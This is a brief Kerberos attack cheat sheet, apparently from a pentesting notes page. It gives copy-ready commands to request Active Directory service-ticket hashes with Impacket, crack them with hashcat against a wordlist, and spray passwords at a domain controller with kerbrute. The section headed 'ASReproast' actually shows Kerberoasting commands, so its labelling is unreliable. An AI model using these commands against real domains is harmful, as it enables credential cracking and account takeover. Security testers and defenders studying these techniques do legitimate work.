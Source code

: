 # Kerberos

#### ASReproast

```
python3 /usr/local/bin/GetUserSPNs.py domain.com/user:password -dc-ip $ip -request
```

```
hashcat -d 2 krb5tgs.txt -m 13100 -a 0 /usr/share/wordlists/rockyou.txt
```

#### Password Spraying

_Kerbrute_

```
kerbrute passwordspray -d domain.com --dc $ip users.txt
```
